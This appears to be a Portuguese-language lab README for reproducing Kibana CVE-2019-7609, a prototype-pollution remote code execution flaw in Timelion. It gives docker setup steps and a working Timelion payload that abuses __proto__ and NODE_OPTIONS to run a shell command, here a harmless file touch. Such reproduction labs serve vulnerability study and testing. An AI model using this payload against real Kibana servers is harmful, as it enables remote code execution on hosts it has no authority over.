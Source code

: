 # Kibana Prototype Pollution Leads to Remote Code Execution (CVE-2019-7609)

Kibana é um painel de visualização de dados de código aberto para o Elasticsearch.

As versões do Kibana anteriores a 5.6.15 e 6.6.1 contêm uma falha de execução de código arbitrário no visualizador do Timelion. Um invasor com acesso ao aplicativo Timelion pode enviar uma solicitação que tentará executar o código javascript. Isso pode levar um invasor a executar comandos arbitrários com permissões do processo Kibana no sistema host.

Referências:

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## Configurar

Antes de configurar o ambiente, você precisa alterar `vm.max_map_count` para maior que 262144 no servidor host (não no contêiner docker):

```
sysctl -w vm.max_map_count=262144
```

Em seguida, inicie o Kibana 6.5.4 e o Elasticsearch 6.8.6:

```
docker-compose up -d
```

## Reprodução de vulnerabilidade

Após iniciar o ambiente, o Kibana está escutando em `http://your-ip:5106`. A poluição do protótipo acontece no visualizador Timeline, preencha o seguinte payload aqui:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![](1.png)

Em seguida, visite a página "Canvas" para acionar o comando `/bin/touch /tmp/success`. O arquivo `/tmp/success` foi criado com sucesso:

![](2.png)

